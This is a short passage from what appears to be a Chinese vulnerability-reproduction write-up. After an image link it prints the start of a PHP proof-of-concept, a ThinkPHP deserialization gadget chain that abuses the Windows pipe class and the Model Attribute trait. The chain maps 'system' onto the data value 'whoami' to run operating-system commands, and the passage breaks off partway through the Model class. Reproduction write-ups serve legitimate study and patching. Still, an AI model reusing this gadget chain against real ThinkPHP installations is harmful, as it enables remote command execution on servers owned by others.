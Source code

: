 [![](assets/1701072110-271c0dc0fde43915d86eb8e53d6d5d8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122173718-ba918310-891a-1.png)

## 漏洞复现：

```plain
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
```